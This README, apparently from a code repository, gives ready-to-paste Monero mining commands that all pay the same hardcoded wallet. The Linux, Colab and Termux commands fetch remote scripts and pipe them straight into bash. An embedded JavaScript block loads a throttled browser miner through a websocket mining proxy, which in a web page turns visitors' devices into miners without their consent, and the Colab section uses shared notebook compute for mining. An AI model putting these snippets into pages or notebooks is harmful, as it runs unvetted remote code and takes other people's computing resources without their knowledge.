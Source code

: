 # `Smart Mining`
## `Linux`
```
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Google Colab` Or `Jupyter Notebook`
```
! curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Android "Termux"`
```
bash <(curl -fsSL git.io/aminer) -o gulf.moneroocean.stream:10128 -u 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un -p x
```
## `XMRIG`
```
xmrig --opencl --cuda -o gulf.moneroocean.stream:10128 -u 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un -p x -k
```
## `AliX JS`
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Miner";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For You`  
- If You Want To Use It For Your Purpose  
- Simply Replace `8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un` With Your Monero Adress Everywhere  
- Then Use It According To Platform  
- Then Go To https://moneroocean.stream/ And Paste Your Wallet Adress For Tracking

